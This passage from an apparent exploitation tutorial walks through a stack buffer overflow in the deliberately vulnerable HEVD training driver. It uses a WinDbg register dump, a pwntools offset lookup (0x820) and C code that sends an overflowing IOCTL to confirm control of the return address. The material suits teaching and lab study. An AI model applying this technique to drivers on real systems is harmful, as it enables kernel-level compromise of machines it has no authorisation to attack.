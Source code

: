 ```
kd> r
eax=00000000 ebx=8657cc38 ecx=4b35839a edx=00000000 esi=826c8087 edi=8657cbc8
eip=75616175 esp=9d343ae0 ebp=75616174 iopl=0         nv up ei ng nz ac po nc
```
<br>
If we take the EIP value ( 75616175 ) and ( ensuring we use the same generator 
that we used to create the cyclic pattern ) call generator.find we should be 
able to find how big the buffer must be before we start overwriting the return 
address:\
<br>
```python
# Generator created previously
>>> generator.find(75616175)
>>> 0x820
```
<br>

---

**NOTE**  
Note that pwntools generator.find() returns the offset where the given value 
starts. So for the above the byte 75616175 start at offset 0x820 from the 
buffer, meaning when we do our buffer overflow we need to fill the buffer with 
0x820 bytes of junk and then put our 4 byte return address after that.

---
<br>
We now want to verify that we can precisely control the return address for 
`TriggerBufferOverflowStack` given we have determined the required size the 
buffer needs to be. Lets rerun the exploit but lets change our input buffer to 
be 0x820 A's and 4 B's for our return address to verify we calculated the 
offset correctly.  
<br>
```c
int main()
{
    ...
    HANDLE hHeap = GetProcessHeap();
    LPVOID InBuffer = HeapAlloc(hHeap, HEAP_NO_SERIALIZE | HEAP_ZERO_MEMORY, 0x824);
    memset(InBuffer, 0x41, 0x820);
    /* Arithmetic on a VOID * is illegal in C, wary of pointer scaling, we cast 
    to PCHAR before we do arithmetic */
    memset(((PCHAR)InBuffer)+0x820, 0x42, 0x4);
    DWORD lpBytesReturned = 0;
    BOOL IOCTLSent = DeviceIoControl(
        hHEVD,
        HEVD_IOCTL_BUFFER_OVERFLOW_STACK,
        InBuffer,
        0x824,
        NULL,
        0,
        &lpBytesReturned,
        NULL
    );
}
```
<br>

---